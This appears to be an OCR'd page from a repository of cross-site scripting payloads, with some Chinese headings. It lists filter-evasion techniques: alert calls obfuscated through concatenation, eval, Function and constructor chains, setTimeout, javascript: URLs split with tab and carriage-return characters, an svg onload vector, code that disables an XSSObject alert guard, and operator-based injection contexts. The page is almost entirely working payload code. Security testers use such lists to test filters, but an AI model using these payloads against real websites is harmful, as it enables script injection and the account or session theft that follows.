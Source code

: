	[7].map(alert)
	[8].find(alert)
	[9].every(alert)
	[10].filter(alert)
	[11].findIndex(alert)
	[12].forEach(alert);

	prompt`${document.domain}`
	document.location='java\tscript:alert(1)'
	document.location='java\rscript:alert(1)'
	document.location='java\tscript:alert(1)'

	eval('ale'+'rt(0)');
	Function("ale"+"rt(1)")();
	new Function`al\ert\`6\``;

	constructor.constructor("aler"+"t(3)")();
	[].filter.constructor('ale'+'rt(4)')();

	top["al"+"ert"](5);
	top[8680439..toString(30)](7);
	top[/al/.source+/ert/.source](8);
	top['al\x65rt'](9);

	open('java'+'script:ale'+'rt(11)');
	location='javascript:ale'+'rt(12)';

	setTimeout`alert\u0028document.domain\u0029`;
	setTimeout('ale'+'rt(2)');
	setInterval('ale'+'rt(10)');
	Set.constructor('ale'+'rt(13)')();
	Set.constructor`al\x65rt\x2814\x29```;

	var i = document.createElement("iframe");
	i.onload = function(){
	  i.contentWindow.alert(1);
	}
	document.appendChild(i);

	// Bypassed security
	XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
	      var proxy = obj[name];
	      obj[name] = function () {
	        if (exec_original) {
	          return proxy.apply(this, arguments);
	        }
	      };
	      XSSObject.lockdown(obj, name);
	  };
	XSSObject.proxy(window, 'alert', 'window.alert', false);
 ##### >
  	<svg onload=alert(1)//
 ##### 绕过<>
  	Unicode 字符 U+FF1C 和 U+FF1E
 ##### ;
  	'te' * alert('*') * 'xt';
	'te' / alert('/') / 'xt';
	'te' % alert('%') % 'xt';
	'te' - alert('-') - 'xt';
	'te' + alert('+') + 'xt';
	'te' ^ alert('^') ^ 'xt';
	'te' > alert('>') > 'xt';
	'te' < alert('<') < 'xt';
	'te' == alert('==') == 'xt';
	'te' & alert('&') & 'xt';
	'te' , alert(',') , 'xt';